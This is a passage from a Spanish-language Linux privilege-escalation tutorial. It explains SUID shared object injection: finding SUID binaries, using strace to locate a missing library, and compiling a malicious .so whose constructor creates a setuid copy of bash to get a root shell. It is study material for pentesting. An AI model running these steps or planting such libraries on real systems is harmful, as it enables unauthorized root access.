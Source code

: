 debera haber escalado privilegios, si coloca **id** ya es root.

### Shared Object Injection

Una vez que se ejecuta un programa, buscará cargar los objetos compartidos necesarios. Podemos usar un programa llamado strace para rastrear los objetos compartidos que se llaman. Si no se encuentra un objeto compartido, podemos secuestrarlo y escribir un script malicioso para generar un shell raíz cuando se carga.

imaginemos que existe un binario SUID llamado `/usr/local/bin/suid-so`:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

con strace podemos filtrar por **open|access|no such file** para que muestre solo librerias que el binario, abre, accede o no encuentra:

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

puede ser que un archivo `.so` no lo encuentre, lo abra o lo utilice, por ejemplo esta es la salida si no lo encontrara:

```bash
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

dice que no encuentra el archivo `/home/user/.config/libcalc.so` asi que podemos crear uno en la misma ruta con un codigo arbitrario:

```bash
mkdir /home/user/.config
cd /home/user/.config


```

creamos un `.so` malicioso:

primero creamos el `libcalc.so` malicioso:

```bash
#lo guardamos como libcalc.c

#include <stdio.h>

#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {

 system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}
```
